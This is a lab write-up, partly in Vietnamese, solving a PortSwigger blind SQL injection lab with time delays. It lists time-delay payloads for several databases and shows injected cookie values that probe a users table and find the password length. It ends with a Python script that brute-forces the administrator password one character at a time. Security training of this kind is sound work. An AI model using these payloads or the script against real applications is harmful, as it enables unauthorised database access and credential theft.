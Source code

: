 # Lab: Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

# Overview:

Theo tiêu đề của lab, chúng ta sẽ thực hiện tấn công SQL mà kết quả trở về có độ trễ. Từ đó ta có thêm thời gian thực thi câu lệnh SQL để thực hiện các cuộc tấn công khác.

Goal của chúng ta là cần inject query đối với time delays thích hợp.

Cheat sheet, time-delay mà lab đưa ví dụ khá là nhiều cho các version database. Vì ko biết sử dụng cái nào mình phải mò từng cái

```
Oracle: dbms_pipe.receive_message(('a'),10)
Microsoft: WAITFOR DELAY '0:0:10'
PostgreSQL: SELECT pg_sleep(10)
MySQL: SELECT sleep(10) 
```

# Solution:

```
SELECT trackingId FROM someTable WHERE trackingId = 'vvv' || (<CODE HERE>) || ''
```

**vvv là giá trị của cookie**

Kí tự đầu tiên được inject vào là `'` sau `vvv`, sau đó mình nối với output của code. Tiếp theo là nối với `'`. Đối với Oracle và PostgreSQL, `||` được sử dụng để ghép nối, với Microsoft `+` và  MySQL là `khoảng trắng`.

Đồi với PostgreSQL inject `'||(SELECT pg_sleep(10))||'`, query cần thời gian giải để hoàn thành: 10.241s. Thường thì đối với mình, query mất khoảng 240millis.Vậy thêm 10 đến từ việc inject

![image](https://user-images.githubusercontent.com/115911041/234800969-b0ba8d28-7555-4c02-94a4-c91e27544904.png)


## Xác định tên table và column cũng như là username:

Bây giờ ta đã biết database đang chạy version nào, bước tiếp theo:

- Xác định table `users` có tồn tại hay không

- Xác định columns `username` và `password`

- Tìm Entry của username `administrtor`

Mình đã giảm xuống delay đến 3 secs để cho nó tiện hơn.

`'||(SELECT pg_sleep(3) FROM users LIMIT 1)||'`

![image](https://user-images.githubusercontent.com/115911041/234802100-7a17b2a6-0262-4c8f-bfb1-40b98f5e3d28.png)

`'||(SELECT pg_sleep(3)||username||password FROM users LIMIT 1)||'`

![image](https://user-images.githubusercontent.com/115911041/234802664-9461a3b5-b35c-49a8-b45d-fcddb8035404.png)

`'||(SELECT pg_sleep(3)||username||password FROM users WHERE username='administrator')||'`

![image](https://user-images.githubusercontent.com/115911041/234802886-5d458454-fe78-47af-9dce-7e6013a61514.png)

Cả 3 query đều hơn 3 secs, trong khi sử dụng các tên table khác nhau hoặc cột hoặc sử dụng tên username, thì phản hồi có ngay.

Vậy table có tồn tại với column `username` và `password`, bao gồm entry cho `administrator` như là username.

## Xác định độ dài của password

```
'SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- 
```

Nếu có tồn tại username  `administrator` và độ dài của chuỗi password > 1 thì khi đó, kết quả trả về sẽ có độ trễ.

![image](https://user-images.githubusercontent.com/115911041/235216254-c7662cbe-9f7d-4dd6-a168-1ce1eb14720d.png)

![image](https://user-images.githubusercontent.com/115911041/235216375-731a14d0-67e8-4b9f-bb39-95817bc22adf.png)

![image](https://user-images.githubusercontent.com/115911041/235216474-37fa7754-dd1d-4eab-963a-ae1efe8e1c58.png)

Vậy độ dài của password là 20

# Liệt kê password

Để liệt kê password thì khá đơn giản, chỉ bằng cách kiểm tra từng kí tự của passowrd thay vì độ dài. Mình sử dụng resource pool cũ giống ở trên

`'||(SELECT pg_sleep(3) FROM users WHERE username='administrator' AND SUBSTR(password,1,1)='a')||'`

![image](https://user-images.githubusercontent.com/115911041/235217181-7192945f-2b07-42a5-9351-772297509ffa.png)

Sử dụng Burp Intruder, Attack Type: **Cluster bomb**

Payload 1: numeric

Payload 2: brute force

![image](https://user-images.githubusercontent.com/115911041/235286093-e926ec6d-f5f6-4758-81e4-d26a879bcf4e.png)

`password:ecei5oyr7agz3f1acqgc`

Đăng nhập lại

![image](https://user-images.githubusercontent.com/115911041/235286183-e45db7d8-eefd-43e5-8004-d4ecceb51c72.png)

# Script python
```
import requests
import string
from requests.exceptions import Timeout

characters = list(string.ascii_lowercase)
characters += list(string.digits)
url = "https://0ae6000204e96b3d80083aee008e003f.web-security-academy.net/" #Target URL
length = 20
result = ''

print("[+] Extracting Password")

for i in range(1, length+1):
    found_char = False
    for char in characters:
        payload = f"a'||(SELECT CASE WHEN (username='administrator' AND SUBSTR(password,{i},1)='{char}') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users)||'"
        print(f"Trying number {i} with character: {char}")
        cookie = {"TrackingId":payload}
        try:
            response = requests.get(url, cookies=cookie, timeout=2.5)
            if response.status_code != 200:
                print("[+] Got non-200 status code: ", response.status_code)
                continue
        except Timeout:
            found_char = True
            result += char
            print("[+] Found character:", char)
            break

    if not found_char:
        print(f"[+] Could not find character at position {i}")
        break

print("[+] Password is: ", result)

```


